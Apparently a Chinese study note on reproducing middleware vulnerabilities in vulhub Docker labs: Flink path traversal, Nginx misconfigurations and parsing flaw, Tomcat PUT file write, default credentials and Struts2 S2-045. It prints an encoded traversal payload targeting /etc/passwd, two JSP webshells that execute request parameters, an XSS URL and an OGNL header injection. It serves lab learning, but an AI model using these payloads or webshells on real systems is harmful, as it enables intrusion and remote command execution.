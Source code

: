 # Apache Flink上传路径遍历（CVE-2020-17518）

Apache Flink 1.5.1引入了REST处理程序，该处理程序允许您通过恶意修改的HTTP HEADER将上传的文件写入本地文件系统上的任意位置。

环境搭建：

```
cd flink/CVE-2020-17518
docker-compose build
docker-compose up -d
```

![image-20210618141903003](D:\BaiduNetdiskDownload\安全\中间件漏洞\中间件漏洞.assets\image-20210618141903003.png)

![](D:\BaiduNetdiskDownload\安全\中间件漏洞\中间件漏洞.assets\image-20210618143834972.png)

# Apache Flink jobmanager_logs路径遍历

```
cd flink/CVE-2020-17519
docker-compose build
docker-compose up -d
```

![](D:\BaiduNetdiskDownload\安全\中间件漏洞\中间件漏洞.assets\image-20210618144245438.png)

![image-20210618144403834](D:\BaiduNetdiskDownload\安全\中间件漏洞\中间件漏洞.assets\image-20210618144403834.png)

```
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![image-20210618144818342](D:\BaiduNetdiskDownload\安全\中间件漏洞\中间件漏洞.assets\image-20210618144818342.png)

# Nginx配置错误导致漏洞(3处)

环境搭建

```
cd nginx/insecure-configuration 
docker-compose up -d
```

## CRLF注入

CRLF：/r/f

```
location / {
	return 302 https://$host$uri;
}
```

![image-20210618145703261](D:\BaiduNetdiskDownload\安全\中间件漏洞\中间件漏洞.assets\image-20210618145703261.png)

## 目录穿越

```
location /files {
	alias /home/;
}
```

```
http://10.0.0.202:8081/files../
```

## add_ header覆盖

Nginx配置文件子块(server、 location、 if) 中的 add_ header ，将会覆盖父块中的add_ header 添加的HTTP头，造成一些安全隐患。

```
add_header Content-Security-Policy "default-src 'self'";
add_header X-Frame-Options DENY;

location = /test1 {
	rewrite ^(.*)$ /xss.html break;
}

location = /test2 {
	add_ header X-Content-Type-options nosniff;
	rewrite ^(.*)$ /xss.html break;
}
```

```
http://10.0.0.202:8082/test2#%3Cimg%20src=1%20onerr=alert(1)%3E
```

# Nginx解析漏洞复现

```
cd /root/vulhub/nginx/nginx_parsing_vulnerability
docker-compose build
docker-compose up -d
```

```
http://10.0.0.202/
http://10.0.0.202/uploadfiles/nginx.png
http://10.0.0.202/uploadfiles/nginx.png/.php
```

x.png/.php被服务器认为是x.php可以上传图片马

# Tomcat PUT方法任意写文件突破（CVE-2017-12615）

| 序号 | 方法    | 描述                                                         |
| ---- | ------- | ------------------------------------------------------------ |
| 1    | GET     | 发送请求来获得服务器上的资源，请求体中不会包含请求数据，请求数据放在协议头中。另外get支持快取、缓存可保留书签等。幂等 |
| 2    | POST    | 和get-样很常见，向服务器提交资源让服务器处理,比如提交表单、上传文件等, 可能导致建立新的资源或者对原有资源的修改。提交的资源放在请求体中。不支持快取。非幂等 |
| 3    | HEAD    | 本质和get- -样， 但是响应中没有呈现数据，而是http的头信息， 主要用来检查资源或超链接的有效性或是否可以可达、检查网页是否被串改或更新，获取头信息等,特别适用在有限的速度和带宽下。 |
| 4    | PUT     | 和post类似，html表单不支持，发送资源与服务器，并存储在服务器指定位置,要求客户端事先知道该位置;比如post是在一 个集合上/province) ，而put是具体某- 个资源上(/province/123) .所以put是安全的,无论请求多少次，都是在123上更改，而post可能请求几次创建了几次资源。幂等 |
| 5    | DELETE  | 请求服务器删除某资源。和put都具有破坏性,可能被防火墙拦截，如果是https协议, 则无需担心。幕等 |
| 6    | CONNECT | HTTP/1.1协议中预留给能够将连接改为管道方式的代理服务器。就是把服务器作为跳板，去访问其他网页然后把数据返回回来，连接成功后，就可以正常的get、post了。 |
| 7    | OPTIONS | 获取ht服务器支持的http请求方法，允许客户端查看服务器的性能，比如ajax跨域时的预检等。 |
| 8    | TRACE   | 回显服务器收到的请求，主要用于测试或诊断。- -般禁用，防止被恶意攻击或盗取信息。 |



Tomcat配置了可写(readonly= false)，导致我们可以往服务器写文件:

```
<servlet>
	<servlet-name>de fault</servlet-name>
	<servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
	<init-param>
		<param-name>debug</par am-name>
		<param-value>0</param-value>
	</init-param>
	<init-param>
		<param-name> list ings</ par am-name>
		<param-value>false</ param-value>
	</init-param>
	<init-param>
		<param-name>readonly</ par am-name>
		<param-value>false</ param-value>
	</init-param>
	<load-on-startup>1</load-on-startup>
</servlet>

```

虽然Tomcat对文件后缀有一定检测(不能直接写jsp) ，但我们使用一些文件系统的特性(如Linux 下可用/)来绕过了限制。

```
cd /root/vulhub/tomcat/CVE-2017-12615
docker-compose build
docker-compose up -d
```
jsp马

```
<%
if("123456".equals(request.getParameter("pwd"))){
java.io.InputStream in =
Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>"); 
}
%>
```

![image-20210618161133651](D:\BaiduNetdiskDownload\安全\中间件漏洞\中间件漏洞.assets\image-20210618161133651.png)

jsp一句话木马

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

# Tomcat弱口令

账号：tomcat

密码：tomcat

# S2-045远程执行代码漏洞（CVE-2017-5638）

```
cd /root/vulhub/struts2/s2-045
docker-compose build
docker-compose up -d
```

```
Content-Type:
%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',3*7)}.multipart/form-data
```

